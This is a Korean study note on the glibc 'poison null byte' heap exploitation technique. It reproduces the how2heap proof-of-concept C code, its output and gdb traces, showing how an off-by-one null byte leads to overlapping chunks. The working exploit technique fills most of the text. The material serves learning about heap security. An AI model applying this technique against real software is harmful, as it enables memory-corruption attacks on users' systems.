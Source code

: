 # **Poison null byte**

## **Conditions**

* 공격자에 의해 다음과 같은 Heap 영역을 할당, 해제할 수 있어야 함
    * 0x200 이상의 Heap 영역 
    * Fast bin 이상의 Heap 영역(Heap size : 0x80 이상)
* 공격자에 의해 Free chunk의 size 영역에 1byte를 Null로 변경할 수 있어야 함
* 공격자에 의해 Free chunk의 size보다 작은 Heap 영역을 2개 할당할 수 있어야 함
    * Fast chunk 사용할 수 없음

## **Exploit Plan**

1. 3개의 Heap 영역 할당(Heap1, Heap2, Heap3)
1. Heap2 영역(Heap2 주소 + Heap2 size(Null로 변조한 Heap size))에 1byte를 Null로 변조한 값을 저장
1. Heap2 영역 해제
1. Free chunk의 size 영역에 1byte를 null로 변조
1. 변경된 Free chunk 영역 안에서 생성 가능한 크기의 Heap 영역 2개 할당(Heap4, Heap5)
1. Heap4 영역 해제
1. Heap3 영역 해제
1. "Heap4 + Heap5" 이상의 Heap 영역 할당
    * 할당 받은 영역으로 인해 Heap5 영역의 값을 덮어쓸 수 있다.

![poison_null_byte](/Resources/img/poison_null_byte.jpg)

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>


int main()
{
	fprintf(stderr, "Welcome to poison null byte 2.0!\n");
	fprintf(stderr, "Tested in Ubuntu 14.04 64bit.\n");
	fprintf(stderr, "This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.\n");
	fprintf(stderr, "This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

	uint8_t* a;
	uint8_t* b;
	uint8_t* c;
	uint8_t* b1;
	uint8_t* b2;
	uint8_t* d;
	void *barrier;

	fprintf(stderr, "We allocate 0x100 bytes for 'a'.\n");
	a = (uint8_t*) malloc(0x100);
	fprintf(stderr, "a: %p\n", a);
	int real_a_size = malloc_usable_size(a);
	fprintf(stderr, "Since we want to overflow 'a', we need to know the 'real' size of 'a' "
		"(it may be more than 0x100 because of rounding): %#x\n", real_a_size);

	/* chunk size attribute cannot have a least significant byte with a value of 0x00.
	 * the least significant byte of this will be 0x10, because the size of the chunk includes
	 * the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0x200);

	fprintf(stderr, "b: %p\n", b);

	c = (uint8_t*) malloc(0x100);
	fprintf(stderr, "c: %p\n", c);

	barrier =  malloc(0x100);
	fprintf(stderr, "We allocate a barrier at %p, so that c is not consolidated with the top-chunk when freed.\n"
		"The barrier is not strictly necessary, but makes things less confusing\n", barrier);

	uint64_t* b_size_ptr = (uint64_t*)(b - 8);

	// added fix for size==prev_size(next_chunk) check in newer versions of glibc
	// https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30
	// this added check requires we are allowed to have null pointers in b (not just a c string)
	//*(size_t*)(b+0x1f0) = 0x200;
	fprintf(stderr, "In newer versions of glibc we will need to have our updated size inside b itself to pass "
		"the check 'chunksize(P) != prev_size (next_chunk(P))'\n");
	// we set this location to 0x200 since 0x200 == (0x211 & 0xff00)
	// which is the value of b.size after its first byte has been overwritten with a NULL byte
	*(size_t*)(b+0x1f0) = 0x200;

	// this technique works by overwriting the size metadata of a free chunk
	free(b);
	
	fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);
	fprintf(stderr, "b.size is: (0x200 + 0x10) | prev_in_use\n");
	fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'\n");
	a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
	fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);

	uint64_t* c_prev_size_ptr = ((uint64_t*)c)-2;
	fprintf(stderr, "c.prev_size is %#lx\n",*c_prev_size_ptr);

	// This malloc will result in a call to unlink on the chunk where b was.
	// The added check (commit id: 17f487b), if not properly handled as we did before,
	// will detect the heap corruption now.
	// The check is this: chunksize(P) != prev_size (next_chunk(P)) where
	// P == b-0x10, chunksize(P) == *(b-0x10+0x8) == 0x200 (was 0x210 before the overflow)
	// next_chunk(P) == b-0x10+0x200 == b+0x1f0
	// prev_size (next_chunk(P)) == *(b+0x1f0) == 0x200
	fprintf(stderr, "We will pass the check since chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",
		*((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
	b1 = malloc(0x100);

	fprintf(stderr, "b1: %p\n",b1);
	fprintf(stderr, "Now we malloc 'b1'. It will be placed where 'b' was. "
		"At this point c.prev_size should have been updated, but it was not: %#lx\n",*c_prev_size_ptr);
	fprintf(stderr, "Interestingly, the updated value of c.prev_size has been written 0x10 bytes "
		"before c.prev_size: %lx\n",*(((uint64_t*)c)-4));
	fprintf(stderr, "We malloc 'b2', our 'victim' chunk.\n");
	// Typically b2 (the victim) will be a structure with valuable pointers that we want to control

	b2 = malloc(0x80);
	fprintf(stderr, "b2: %p\n",b2);

	memset(b2,'B',0x80);
	fprintf(stderr, "Current b2 content:\n%s\n",b2);

	fprintf(stderr, "Now we free 'b1' and 'c': this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').\n");

	free(b1);
	free(c);
	
	fprintf(stderr, "Finally, we allocate 'd', overlapping 'b2'.\n");
	d = malloc(0x300);
	fprintf(stderr, "d: %p\n",d);
	
	fprintf(stderr, "Now 'd' and 'b2' overlap.\n");
	memset(d,'D',0x300);

	fprintf(stderr, "New b2 content:\n%s\n",b2);

	fprintf(stderr, "Thanks to https://www.contextis.com/resources/white-papers/glibc-adventures-the-forgotten-chunks"
		"for the clear explanation of this technique.\n");
}
```

* a(0x100), b(0x200), c(0x100) Heap 영역 할당

```
Welcome to poison null byte 2.0!
Tested in Ubuntu 14.04 64bit.
This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.
This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.
We allocate 0x100 bytes for 'a'.
a: 0x603010
Since we want to overflow 'a', we need to know the 'real' size of 'a' (it may be more than 0x100 because of rounding): 0x108
b: 0x603120
c: 0x603330
```

* Top chunk와 병합되지 않도록 barrier Heap 영역 할당

```
We allocate a barrier at 0x603440, so that c is not consolidated with the top-chunk when freed.
The barrier is not strictly necessary, but makes things less confusing
```

* b + 0x200 위치에 0x200(Heap) 저장
    * 0x603110 + 0x200 = 0x603310

```
In newer versions of glibc we will need to have our updated size inside b itself to pass the check 'chunksize(P) != prev_size (next_chunk(P))'
```

```
gdb-peda$ p 0x603110 + 0x200
$1 = 0x603310
gdb-peda$ x/24gx 0x603310
0x603310:	0x0000000000000200	0x0000000000000000
```

* off-by-one을 통해 b의 size 변조

```
b.size: 0x211
b.size is: (0x200 + 0x10) | prev_in_use
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x200
c.prev_size is 0x210
```

* b1을 0x100 할당 시 b영역에 재할당(0x603110)
* b2를 0x80 만큼 할당 시 b영역에 재할당(0x603110 + 0x110)
* b2에 memset을 통해 'B' 저장

```
We will pass the check since chunksize(P) == 0x200 == 0x200 == prev_size (next_chunk(P))
b1: 0x603120
Now we malloc 'b1'. It will be placed where 'b' was. At this point c.prev_size should have been updated, but it was not: 0x210
Interestingly, the updated value of c.prev_size has been written 0x10 bytes before c.prev_size: f0
We malloc 'b2', our 'victim' chunk.
b2: 0x603230
Current b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

* b1을 free
* c를 free하면 c의 prev_size를 확인하는데 이 때 0x210으로 되어 있어 "c - 0x210" 위치를 확인하여 free chunk인지 확인한다.
* b1을 free 했기 때문에 free 영역으로 인식하여 b1과 c를 병합하게 된다.

```
Now we free 'b1' and 'c': this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').
```

* 새로 할당한 d와 b2가 overlapping 된다.
* d를 'D'로 memset 한 후 b2를 확인하면 'D'로 저장되있는 것을 확인할 수 있다.

```
Finally, we allocate 'd', overlapping 'b2'.
d: 0x603120
Now 'd' and 'b2' overlap.
New b2 content:
DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
Thanks to https://www.contextis.com/resources/white-papers/glibc-adventures-the-forgotten-chunksfor the clear explanation of this technique.
```

**References**  
<https://www.lazenca.net/display/TEC/Poison+null+byte>  
<https://github.com/shellphish/how2heap/blob/master/glibc_2.25/poison_null_byte.c>  
<https://code1018.tistory.com/220>
